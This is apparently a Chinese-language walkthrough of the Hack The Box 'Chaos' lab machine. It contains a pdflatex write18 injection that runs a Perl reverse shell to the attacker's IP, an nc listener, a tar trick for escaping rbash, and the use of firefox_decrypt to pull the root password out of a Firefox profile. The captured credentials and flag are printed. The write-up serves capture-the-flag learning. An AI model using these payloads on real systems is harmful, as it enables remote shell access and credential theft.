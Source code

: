 ## 0x05
+ 打开浏览器登录 http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3
+ 来看下这个http地址有什么可以利用的信息，发现这是一个txt转pdf的插件，

  发现是pdflatex攻击，给出对应的[学习链接](https://0day.work/hacking-with-latex/)。

  点击create pdf，在创建pdf的同时会执行命令，直接反弹shell.
+ 网页提示只有一个模板可以被使用，尝试后发现是test3模板，输入正文并点击生成按钮后，

  网页并不会有直接的提示，需要启用开发者模式获得结果，生成的pdf在路径
  
  http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/pdf/

+ 对应的payload 需要修改自己的ip地址

``````
  \immediate\write18{perl -e 'use Socket;$i="10.10.14.37";$p=6666;
  socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
  if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
  open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'}
``````

+ 本机监听 nc -vnlp 6666 页面执行对应的payload 进入到www-data账户下 执行

``````
$ python -c 'import pty; pty.spawn("/bin/bash")'
$su ayush
Password:jiujitsu
``````

+ 切换至ayush的会话中，但这是一个rbash，环境变量被设置在/home/ayush/.app中，拒绝了绝大多数的命令，

  经过尝试dir可以正常执行，在.app目录中有tar，这里使用tar来逃逸rbash，[学习链接](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)

  逃逸POC：tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash

  获得正常bash后，添加环境变量export PATH=$PATH:/usr/bin/，打印出user.txt 

eef39126d9c3b4b8a30286970dc713e1

## 0x06
+ 尝试root权限 .Mozilla是否存放有有关root的密码
+ 路径/home/ayush/.mozilla/firefox/bzo7sjt1.default
+ 本地下载[GitHub - unode/firefox_decrypt: Firefox Decrypt is a tool to extract passwords from Mozilla (Firefox/Thunderbird/Seabird) profiles](https://github.com/unode/firefox_decrypt) 利用nc上传到靶机

``````
nc -l -p 39808 > firefox_decrypt.py #client接收
nc -w 3 10.10.10.120 39808 < firefox_decrypt.py #host传送
``````

+ 执行命令
``````
/usr/bin/python3 firefox_decrypt.py /home/ayush/.mozilla/firefox/
Master Password for profile /home/ayush/.mozilla/firefox/bzo7sjt1.default: jiujitsu


Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
``````
